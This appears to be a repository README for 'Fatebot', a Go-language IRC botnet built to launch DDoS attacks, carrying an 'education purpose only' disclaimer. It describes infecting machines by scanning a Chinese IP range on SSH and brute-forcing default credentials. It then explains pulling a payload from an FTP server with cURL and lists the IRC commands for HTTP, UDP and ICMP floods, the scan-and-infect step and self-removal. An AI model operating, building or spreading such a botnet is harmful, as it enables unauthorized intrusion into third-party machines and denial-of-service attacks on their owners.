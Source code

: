 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me, And i don't know how to get a permission for run payload.(On victim machine.) 
That's why <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?fate [url]</li></strong>
    <ul>
      <li>?fate https://target.com</li>
      - Use all DDoS function to attack target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
